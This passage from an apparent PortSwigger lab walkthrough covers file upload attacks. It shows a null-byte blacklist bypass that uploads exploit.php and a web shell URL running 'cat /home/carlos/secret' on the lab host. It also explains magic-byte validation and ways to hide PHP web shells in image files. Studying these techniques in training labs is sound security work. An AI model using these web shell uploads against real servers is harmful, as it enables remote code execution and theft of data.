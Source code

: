 ```
The file avatars/exploit.php has been uploaded.<p><a href="/my-account" title="Return to previous page">« Back to My Account</a></p>
```

Their response says the file `avatars/exploit.php` is uploaded instead of `exploit.php%00.jpg` which means the Null byte worked and we successfully bypassed the blacklist mechanism. Now the webshell is uploaded Send the GET request to the following URL to exfiltrate the content of the `/home/carlos/secret` file.

```
https://0ad90038033d46d8819c482600d8005f.web-security-academy.net/files/avatars/exploit.php?cmd=cat%20/home/carlos/secret
```


### File Content Validation

Instead of blindly trusting the `Content-Type` header provided in a request, secure servers employ a cautious approach by verifying the actual content of uploaded files to ensure they match the expected file type.

When dealing with image uploads, servers can perform additional checks on intrinsic file properties, such as its dimensions. By examining these properties, the server can detect inconsistencies. For example, if a file claimed to be an image lacks any dimensions, it is clear that it cannot be a valid image, leading to the rejection of the upload.

Moreover, certain file types have distinct patterns in their header or footer, which serve as unique fingerprints or signatures. These specific byte sequences, often referred to as Magic Bytes or signature characters, allow servers to determine if the file content corresponds to the expected file type. For instance, JPEG files always start with the bytes `FF D8 FF`. Each file type has its own set of magic bytes, and you can learn more about them in the [Wikipedia Magic Bytes](https://en.wikipedia.org/wiki/List_of_file_signatures) reference.

While this approach greatly improves file type validation, it is not completely immune to exploitation. Advanced tools like `ExifTool` can be used to create polyglot (a type of file that is valid and interpretable by multiple file formats or programming languages) JPEG files that contain malicious code within their metadata, evading detection by leveraging the intricacies of file format specifications.

Attackers employ these techniques to bypass security measures and execute PHP web shell code. One approach involves adding image magic bytes at the beginning of a PHP web shell file, disguising it as an image file. Another method involves utilizing tools like `ExifTool` to embed PHP web shell code within the metadata of an image file. This allows the attacker to upload the file with a PHP file extension while still executing the malicious code. These tactics enable attackers to evade detection and exploit vulnerabilities in web applications.

### LAB #6: Remote Code Execution via polyglot web shell upload

Lab URL: https://portswigger.net/web-security/file-upload/lab-file-upload-remote-code-execution-via-polyglot-web-shell-upload

**Objective**

Upload a polyglot image file that contains the PHP web shell to get RCE, and use that to exfiltrate the content of the `/home/carlos/secret` file.
